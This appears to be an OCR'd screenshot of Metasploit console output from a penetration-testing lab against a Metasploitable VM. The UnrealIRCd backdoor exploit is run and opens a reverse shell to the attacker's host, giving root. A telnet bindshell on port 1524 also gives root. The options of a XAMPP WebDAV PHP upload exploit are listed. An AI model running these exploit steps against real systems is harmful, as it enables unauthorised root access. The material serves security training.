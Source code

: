 Module options (exploit/unix/irc/unreal_ircd_3281_backdoor):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST                   yes       The target address
   RPORT  6667             yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target


msf exploit(unreal_ircd_3281_backdoor) > set rhost 192.168.118.177
rhost => 192.168.118.177
msf exploit(unreal_ircd_3281_backdoor) > run

[*] Started reverse TCP double handler on 192.168.118.176:4444
[*] 192.168.118.177:6667 - Connected to 192.168.118.177:6667...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
[*] 192.168.118.177:6667 - Sending backdoor command...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo WSELv6Yuu39Rd4M0;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "WSELv6Yuu39Rd4M0\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 2 opened (192.168.118.176:4444 -> 192.168.118.177:45337) at 2017-05-18 20:49:18 -0400

whoami
root

root@kali:~# telnet 192.168.118.177 1524
Trying 192.168.118.177...
Connected to 192.168.118.177.
Escape character is '^]'.
root@metasploitable:/# whoami
root
root@metasploitable:/#


msf > use exploit/windows/http/xampp_webdav_upload_php
msf exploit(xampp_webdav_upload_php) > show options

Module options (exploit/windows/http/xampp_webdav_upload_php):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   FILENAME                   no        The filename to give the payload. (Leave Blank for Random)
   PASSWORD  xampp            no        The HTTP password to specify for authentication
   PATH      /webdav/         yes       The path to attempt to upload
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                      yes       The target address
   RPORT     80               yes       The target port (TCP)
   SSL       false            no        Negotiate SSL/TLS for outgoing connections
   USERNAME  wampp            no        The HTTP username to specify for authentication
   VHOST                      no        HTTP server virtual host
